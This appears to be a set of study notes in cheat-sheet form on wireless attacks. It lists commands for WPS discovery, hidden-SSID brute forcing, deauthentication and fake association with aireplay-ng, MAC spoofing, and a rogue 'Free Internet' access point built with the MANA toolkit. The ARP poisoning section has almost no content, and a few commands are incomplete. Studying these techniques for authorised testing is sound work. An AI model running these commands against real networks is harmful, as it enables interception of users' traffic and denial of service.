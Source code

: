 ### Finding WPS-Enabled APs
- to discover the access point, extended service set identifier (ESSID), and BSSID of a device or router: 
	- command 
		- `` sudo wash -i wlan0 ``

### Launch of Wireless Attacks
#### Detection of Hidden SSIDs
- using airmon-ng 
	- command 
- to make wifi card to monitor mode 
	- ``airmon-ng start <interfacename>`` `#i`
- to  to discover SSIDs 
	-  ``airodump-ng <i>``
-  to brute force and retrieve the actual hidden SSID
	- open in another terminal 
	- ``mdk3 <i> p -b 1 -c <Channel> -t <Target BSSID>``

#### MITM (man in the middle ) Attack Using Aircrack-ng
- start airmon-ng
	- ``airmon-ng start <i>
- Start airodump to discover SSIDs on interface
	- ``airodump-ng --ivs --write capture <i>``
-  De-authenticate (deauth) the client using aireplay-ng.
	- ``aireplay-ng -0 5 -a BSSID`` 
-  Associate the wireless card (fake association) with the AP to be accessed with aireplay-ng.
	- ``aireplay-ng -1 0 -e SECRET_SSID -a BSSID -h MAC add card <i>``

#### MAC Spoofing Attack 
- disable network interface 
	- ``ifconfig wlan0 down``
- enter the new MAC address 
	- ``ifconfig wlan0 hw ether 02:25:ab:4c:2a:bc`` `# hardware Ethernet (MAC) address`
	- ``ifconfig wlan0 hw ether MAC add``
- bring up the interface 
	- ``ifconfig wlan0 up ``
#### ARP Poisoning Attack Using Ettercap 
- open  Ettercap


#### Creation of a Rogue AP Using MANA Toolkit 
- Rogue AP
	- fake malicious wifi crated by attacker 
	- Modify MANA’s configuration file  hostapd-mana.conf
		-  interface= wlan0
		-  SSID = Free Internet
	-  Modify the script file start-nat-simple.sh
		-  phy = wlan0 
		-  upstream = eth0 
-  Execute the script file start-nat-simple.sh using the bash command 
	- `` bash <Path to MANA>/mana-toolkit/run-mana/start-nat-simple.sh``
